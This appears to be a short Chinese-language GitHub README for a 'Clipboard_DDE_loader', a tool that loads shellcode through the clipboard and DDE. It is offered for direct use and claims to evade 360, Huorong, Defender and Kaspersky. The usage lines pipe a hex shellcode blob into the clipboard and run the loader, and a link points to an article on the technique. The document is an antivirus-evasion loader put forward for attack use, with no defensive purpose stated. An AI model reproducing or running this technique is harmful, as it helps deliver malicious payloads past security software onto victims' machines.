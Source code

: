 # Clipboard_DDE_loader

生成的剪贴板+DDE组合的加载器，直接用

原理看之前文章吧，64位效果比32位好

2022/2/11静态+动态基本能过360、火绒、def、卡巴等

卡巴斯基内存查杀主要看你shellcode能不能过了

用法：
```
echo fc4883e4f0e8c00000004... | clip
start Clipboard_DDE.exe\
```

原理：
https://mp.weixin.qq.com/s/0AQzguAU8mS2ktbs-kUF3w
